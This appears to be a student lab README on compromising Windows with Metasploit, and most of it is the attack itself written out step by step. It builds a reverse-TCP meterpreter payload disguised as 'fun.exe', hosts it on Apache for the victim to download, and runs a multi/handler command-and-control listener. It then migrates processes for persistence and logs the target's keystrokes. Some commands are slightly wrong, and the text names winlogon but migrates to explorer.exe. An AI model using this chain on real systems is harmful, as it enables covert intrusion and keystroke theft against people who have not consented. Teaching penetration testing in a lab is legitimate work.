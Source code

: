 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig

## Output

![5 1](https://github.com/Kaviarasu510/Compromising-windows-using-Metasploit/assets/119392695/4c70ff7b-e2a9-4de7-baff-bfa8fa285bd4)

Create a malicious executable file fun.exe using msfvenom command

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT

![6 1](https://github.com/Kaviarasu510/Compromising-windows-using-Metasploit/assets/119392695/77056188-0200-4e1b-98f7-900ec670583d)

copy the fun.exe into the apache /var/www/html folder

![6 2](https://github.com/Kaviarasu510/Compromising-windows-using-Metasploit/assets/119392695/31792d82-b15a-450d-af2b-8d198c85b3fc)

Start apache server

sudo systemctl apache2 start

![6 3](https://github.com/Kaviarasu510/Compromising-windows-using-Metasploit/assets/119392695/83531563-5f64-4b7d-9b1a-5776abf2bda9)

Check the status of apache2

![6 4](https://github.com/Kaviarasu510/Compromising-windows-using-Metasploit/assets/119392695/c0ad6f2d-d384-4523-bcf7-6a0f05860b2a)

Invoke msfconsole:

## OUTPUT:
![5 2](https://github.com/Kaviarasu510/Compromising-windows-using-Metasploit/assets/119392695/a46ec40d-1121-4679-83ca-6b4d648e5ae1)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![5 3](https://github.com/Kaviarasu510/Compromising-windows-using-Metasploit/assets/119392695/fd51aff2-28e5-4683-9881-89b2eeab5d73)

Starting a command and control Server

use multi/handler

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST 0.0.0.0

exploit

![6 5](https://github.com/Kaviarasu510/Compromising-windows-using-Metasploit/assets/119392695/9a24cf63-39b7-49b6-997d-40dc5f6fd9ce)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:

http://192.168.1.2/fun.exe

The file "fun.exe" downloads.

![6 6](https://github.com/Kaviarasu510/Compromising-windows-using-Metasploit/assets/119392695/a0c69149-263a-4965-9450-2f4d9bd01fcb)

On kali give the command exploit

![6 7](https://github.com/Kaviarasu510/Compromising-windows-using-Metasploit/assets/119392695/6d3ad5d6-327f-4efc-82c1-483ebe61d3e9)

To see a list of processes, at the meterpreter > prompt, execute this command:

ps  ⇒ can see the fun.exe process running with pid 1156
![6 8](https://github.com/Kaviarasu510/Compromising-windows-using-Metasploit/assets/119392695/2a82d73f-bd85-40fa-8423-7fbd6560dd4e)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.

To become more persistent, we'll migrate to a process that will last longer.

Let's migrate to the winlogon process.

At the meterpreter > prompt, execute this command:

migrate -N explorer.exe

at meterpreter > prompt, execute this command:

netstat

A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.

Notice the "PID/Program name" value for this connection, which is redacted 

![6 9](https://github.com/Kaviarasu510/Compromising-windows-using-Metasploit/assets/119392695/880f7f10-8ad9-4006-af3c-ce6a4da69450)

Post Exploitation

The target is now owned. Following are meterpreter commands for key capturing in the target machine

keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![6 10](https://github.com/Kaviarasu510/Compromising-windows-using-Metasploit/assets/119392695/222291fd-7f26-4af0-b959-751a906fd095)

keyscan_dump	Shows the keystrokes captured so far

![6 12](https://github.com/Kaviarasu510/Compromising-windows-using-Metasploit/assets/119392695/2a4a7d88-f299-4c28-9e35-e88e1c13d1e8)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
